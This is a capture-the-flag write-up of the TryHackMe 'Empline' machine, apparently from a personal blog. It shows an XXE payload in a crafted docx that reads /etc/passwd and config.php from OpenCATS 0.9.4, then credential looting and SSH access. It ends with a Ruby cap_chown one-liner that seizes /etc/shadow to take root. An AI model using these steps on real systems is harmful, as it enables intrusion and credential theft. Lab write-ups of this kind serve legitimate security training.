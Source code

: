 ```yaml
---
layout: default
title : muzec - Haclabs NoName Writeup
---
```



### Enumeration With Nmap

We always start with an nmap scan.....

```Nmap -sC -sV -oA empline.txt <Target-IP>```


```
┌──(muzec㉿Muzec-Security)-[~/Documents/TryHackMe/empline]
└─$ nmap -sC -sV -oA empline.txt 10.10.46.229
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-22 15:38 WAT
Nmap scan report for 10.10.46.229
Host is up (0.20s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c0:d5:41:ee:a4:d0:83:0c:97:0d:75:cc:7b:10:7f:76 (RSA)
|   256 83:82:f9:69:19:7d:0d:5c:53:65:d5:54:f6:45:db:74 (ECDSA)
|_  256 4f:91:3e:8b:69:69:09:70:0e:82:26:28:5c:84:71:c9 (ED25519)
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Empline
3306/tcp open  mysql   MySQL 5.5.5-10.1.48-MariaDB-0ubuntu0.18.04.1
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.1.48-MariaDB-0ubuntu0.18.04.1
|   Thread ID: 87
|   Capabilities flags: 63487
|   Some Capabilities: FoundRows, ConnectWithDatabase, DontAllowDatabaseTableColumn, Support41Auth, Speaks41ProtocolOld, IgnoreSpaceBeforeParenthesis, ODBCClient, SupportsTransactions, IgnoreSigpipes, LongColumnFlag, InteractiveClient, LongPassword, Speaks41ProtocolNew, SupportsCompression, SupportsLoadDataLocal, SupportsMultipleStatments, SupportsAuthPlugins, SupportsMultipleResults
|   Status: Autocommit
|   Salt: X<c](O5YD(8#BdPDEkl\
|_  Auth Plugin Name: mysql_native_password
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 50.17 seconds
```

Hello TryHackMe folks damn it been long i know so let hit on a new machine empline release probably last week i guess we have our scan result ready and seems we are having 3 open ports 22,80 and 3306 interesting right?? let start our enumeration with port 80.


![image](https://user-images.githubusercontent.com/69868171/134394687-48cccdf2-9186-488d-9755-5eb91281fcf4.png)

A nice webpage i will say seems we have some pages let check it out, Going through the pages i found a subdomain on the `Employment` page `job.empline.thm` let try to add it our hosts file on our attacking machine.

![image](https://user-images.githubusercontent.com/69868171/134395433-847cd031-405f-4aa2-9696-da9901fa9560.png)

Accessing `http://job.empline.thm/` we are presented with a login page which is powered by opencats.

![image](https://user-images.githubusercontent.com/69868171/134395656-b352565f-780d-42a8-81bd-01072ecd7d2e.png)

What i always check first is version always version and guess what?? opencats is running Version 0.9.4 so i quickly hit google to check if it vulnerable.

![image](https://user-images.githubusercontent.com/69868171/134396268-eeb1d15e-b09b-4b59-a83a-8ff5d456b129.png)

And i found out OpenCats 0.9.4-2  is vulnerable to 'docx ' XML External Entity Injection (XXE). We also have the exploit written in python on exploit-db but what is the fun without trying it manually why run an exploit when we can learn more from doing it manually.

### EXPLOITING THE OPENCATS 0.9.4

![image](https://user-images.githubusercontent.com/69868171/134396940-cf162209-8928-4c95-94c4-3cf7f4f4a830.png)

```
URL:- http://job.empline.thm/careers/
```

Now let click on ` current opening positions` .

![image](https://user-images.githubusercontent.com/69868171/134397180-0b172e99-d73c-4093-8322-355ada98a2f1.png)

Next:- Now click on `Mobile Dev` .

![image](https://user-images.githubusercontent.com/69868171/134397305-1964261f-fe46-47a1-ae9e-e6f4075eabc5.png)


Next:- Now Click on `Apply To Postion` .


![image](https://user-images.githubusercontent.com/69868171/134397581-8b878a69-7880-4bbd-b9bf-ce81017a80c7.png)

Now the fun part begin let create a file called `cv.py` with the python code below;- 

```
from docx import Document
document = Document()
paragraph = document.add_paragraph("Muzec")
document.save("resume.docx")
```
Now let Run the cv.py a resume.docx file has been created. Unzip the resume.docx.

![image](https://user-images.githubusercontent.com/69868171/134402779-894f1fc6-5a68-4005-b5fc-62a253ce7d75.png)


cd (change directory) to word/ use your nano editor and open document.xml.

![image](https://user-images.githubusercontent.com/69868171/134402914-e89172a9-3988-4d21-826b-d47cee688c35.png)


After the first line where <?xml starts, embed the following: `<!DOCTYPE test [<!ENTITY test SYSTEM 'file:///etc/passwd'>]>` .

![image](https://user-images.githubusercontent.com/69868171/134403145-491c89fe-bec0-4854-87ef-39a4eb806f19.png)


Now let find where our name is written in the document.xml. The code will look something like this:

```
<w:body><w:p><w:r><w:t>YOUR_NAME</w:t></w:r 
```

![image](https://user-images.githubusercontent.com/69868171/134403613-c61401f7-51d5-431d-a8d2-5721073cb6be.png)


Now let remove our name and write `"&test;"`. It will look like this:

![image](https://user-images.githubusercontent.com/69868171/134403929-c353c545-c0da-4c9e-ba29-c6b9c3144496.png)


Let Save the file and exit. Go out of the word/ directory and zip our resume.docx back with document.xml using this command `zip resume.docx word/document.xml` . 

![image](https://user-images.githubusercontent.com/69868171/134404176-5d60f1aa-b7fa-460f-94d0-7302cf13d0cc.png)

Now back to our target let upload the `resume.docx` .

![image](https://user-images.githubusercontent.com/69868171/134404339-c0e5a94c-4eb8-4203-84aa-ba1a08d53dfd.png)

Boom and the contents of `/etc/passwd` is presented to you in the input field. Now what is next is try to find a config file to read using the XML injection  yes credentials credentials or a private key for SSH is the main thing.


![image](https://user-images.githubusercontent.com/69868171/134551554-a1fd8ef3-6434-49f3-9b4c-2f8f4113af30.png)

Since OpenCATS is an open source i went on `github` to check where the config.php file is located before running our exploit to be sure if it has a config.php file or not.
 
![image](https://user-images.githubusercontent.com/69868171/134551938-1e1475ea-7d9a-4ee7-81ba-e96b46fc247d.png)

Now let zip it back and upload the docx file on the target.

![image](https://user-images.githubusercontent.com/69868171/134552147-161adf24-6bce-45eb-a5a9-5c69fe090289.png)

Uploading the docx file on the target and boom the config in base64 encoding.

![image](https://user-images.githubusercontent.com/69868171/134552894-32b9d928-cc59-49ef-acfa-d7c42d5784c9.png)

Now let decode it using cyberchef.

![image](https://user-images.githubusercontent.com/69868171/134553287-3cc52ba3-de04-4dce-9308-23a035659382.png)

Boom credentials for mysql let hit it.

![image](https://user-images.githubusercontent.com/69868171/134553502-0483c2de-0412-41c1-9131-18bd5802af2a.png)

Now let find some credentials to loot.

![image](https://user-images.githubusercontent.com/69868171/134553784-fa78b151-2c95-44bc-be2a-2ea00512bd18.png)


![image](https://user-images.githubusercontent.com/69868171/134553857-e652fb05-0990-4023-b605-06086908a436.png)

![image](https://user-images.githubusercontent.com/69868171/134553955-e6052919-107a-4571-b0e9-990b9c37fd4f.png)

Boom another credentials probably for SSH first let look up the hash in a databases to crack first.

![image](https://user-images.githubusercontent.com/69868171/134554183-329a0af5-02d4-4fc2-8aac-9de22a7bd4a4.png)

Now let try it on SSH.

![image](https://user-images.githubusercontent.com/69868171/134554352-1e16c28a-ba5a-4ff6-a6c5-7607afcf8761.png)

We are in cool right and we have user.txt already check the passwd file seems we only have 2 users on the system `ubuntu and george` nothing to worry about the `ubuntu` user just some normal user.

![image](https://user-images.githubusercontent.com/69868171/134554855-ae8b42f1-8fc4-42e4-aa14-62f543a6ebd9.png)

Now let get root checking for SUID and Capabilities.

![image](https://user-images.githubusercontent.com/69868171/134555187-b18112e8-6c0c-4712-a751-9b99fe4aefd7.png)

`sudo -l` nothing on that now SUID.

![image](https://user-images.githubusercontent.com/69868171/134555775-1e88b6a0-464a-46fc-ade0-6fc56274cf26.png)

Clean aslo now Capabilities.

![image](https://user-images.githubusercontent.com/69868171/134555874-93f19291-c81a-45cc-956d-f2c7d838a164.png)

```
/usr/local/bin/ruby = cap_chown+ep
```
Ruby seems interesting with the chown capablity command to change the owner of a file system files now let abuse it.

![image](https://user-images.githubusercontent.com/69868171/134556384-6d16b68d-597a-4c2e-8762-238e7c532dff.png)

```
ruby -e 'puts File.chown(1002, 1002, "/etc/shadow")'
```

Now the shadow file belong us we can easily change the root password sweet right??

![image](https://user-images.githubusercontent.com/69868171/134556697-be140f0b-e68d-4dbe-8fc7-329d51ee2113.png)

Now editting the shadow file with nano.

![image](https://user-images.githubusercontent.com/69868171/134556910-0a5bc231-c7cf-41e7-9860-e062fad2dfd6.png)

Save and exit. Now let use the password with just add to the shadow file with the root user.

![image](https://user-images.githubusercontent.com/69868171/134557033-eb166b9e-24b1-4edd-8aba-7a084b570c9b.png)

We are root and done.

Greeting From [Muzec](https://twitter.com/muzec_saminu)

<br> <br>
[Back To Home](../index.md)
<br>
